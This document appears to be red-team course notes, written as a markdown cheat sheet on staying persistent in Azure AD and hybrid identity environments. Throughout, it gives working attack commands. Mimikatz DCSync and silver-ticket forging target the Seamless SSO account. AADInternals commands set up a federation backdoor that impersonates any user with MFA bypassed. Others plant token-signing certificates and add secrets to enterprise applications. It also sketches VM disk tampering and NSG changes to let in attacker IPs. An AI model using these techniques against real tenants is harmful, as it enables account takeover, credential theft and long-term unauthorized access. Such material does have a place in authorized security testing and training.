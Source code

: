 # Persistence
- It is recommended by Microsoft to join the Azure AD Connect server to the on-prem AD. 
- This means that the persistence mechanisms for on-prem (like Golden Ticket, Silver Ticket, ACL Backdoors and others) that provide us either DA on the on-prem or local admin on the Azure AD connect server will allow to get GA on Azure AD on demand!
  - For PHS, we can extract the credentials
  - For PTA, we can install the agent
  - For Federation, we can extract the certificate from ADFS server using DA

## Hybrid identity - Seamless SSO
- Seamless SSO is supported by both PHS and PTA.
- If seamless SSO is enabled, a computer account AZUREADSSOC is created in the on-prem AD.
- Password/key of the AZUREADSSOACC never changes.

#### Get NTLM hash of AZUREADSSOC account
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DOMAIN>\azureadssoacc$ /domain:<DOMAIN> /dc:<DC NAME>"'
```

#### Create a silver ticket
```
Invoke-Mimikatz -Command '"kerberos::golden /user:<USERNAME> /sid:<SID> /id:1108 /domain:<DOMAIN> /rc4:<HASH> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"' 
```

## Add credentials to enterprise applications
#### Check if secrets (application passwords) can be added to all enterprise applications
```
. .\Add-AzADAppSecret.ps1
Add-AzADAppSecret -GraphToken $graphtoken -Verbose
```

#### Use the secret to autheticate as service principal.
```
$password = ConvertTo-SecureString '<SECRET>' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('<ACCOUNT ID>', $password)
Connect-AzAccount -ServicePrincipal -Credential $creds -Tenant <TENANT ID>
```

### Check what resources service principal can access
```
Get-AzResource
```

## Federation
### Creating a trusted domain
If we have GA privileges on a tenant, we can add a new domain (must be verified), configure its authentication type to Federated and configure the domain to trust a specific certificate (any.sts in the below command) and issuer.

#### Add a domain with AADInternal
```
Import-Module .\AADInternals.psd1
ConvertTo-AADIntBackdoor -DomainName <DOMAIN>
```

#### Get immutableID of the user that we want to impersonate. Using Msol module
```
Get-MsolUser | select userPrincipalName,ImmutableID
```

#### Access any cloud app as the user
```
Open-AADIntOffice365Portal -ImmutableID <ID> -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA $true
```

### Token Signing Certificate
- With DA privileges on on-prem AD, it is possible to create and import new Token signing and Token Decrypt certificates that have a very long validity. 

#### Create new certs, add them to ADFS, Disable auto reollver and restart the service
```
Import-Module .\AADInternals.psd1
New-AADIntADFSSelfSignedCertificates
```

#### Update the certificate information with AzureAD
```
Update-AADIntADFSFederationSettings -Domain <DOMAIN>
```

## Storage account access keys
- We already know that keys provide root equivalent privileges on an storage account. 
- There are two access keys and they are NOT rotated automatically (unless a key vault is managing the keys). 
- This, of course, provides neat persistent access to the storage account.
- We can also generate SAS URL (including offline minting) using the access keys. 


## Application and service principals
- With privileges of Application Administrator, GA or a custom role with microsoft.directory/applications/credentials/update permissions, we can add credentials (secret or certificate) to an existing application.
- We can also add a new application that has high permissions and then use that for persistence.
- If we have GA privileges, we can create an application with the Privileged authentication administrator role - that allows to reset password of Global Administrators.

#### Sign in as a service principal account
```
$passwd = ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("<ACCOUNT ID>", $passwd) 
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant <ID>
```

#### For certificate based authentication
```
Connect-AzAccount -ServicePrincipal -Tenant <ID> -
CertificateThumbprint <Thumbprint> -ApplicationId <ID>
```

## Illicit Consent Grant
- We can register an application (only for the target tenant) that needs high impact permissions with admin consent - like sending mail on a user's behalf, role management etc.

## Azure VMs and NSGs
- OS level persistence on an Azure VM where we have remote access is very useful. 
- Azure VMs also support managed identity so persistence on any such VM will allow us access to additional Azure resources. 
- We can also create snapshot of disk attached to a running VM. This can be used to extract secrets stored on disk (like SAM hive for Windows). 
- It is also possible to attach a modified/tampered disk to a turned-off VM. For example, add a local administrator!
- Couple this with modification of NSGs to allow access from IPs that we control!

## Custom Azure AD roles
- If we have GA in a tenant, we can modify a custom role and assign that to a user that we control. 
- Take a look at the permissions of the built-in administrative roles, we can pick individual actions. It is always helpful to go for minimal privileges.

## Deployment Modification
-  If we have persistent access to external resources like GitHub repos that are a part of deployment chain, it will be possible to persist in the target tenant. 
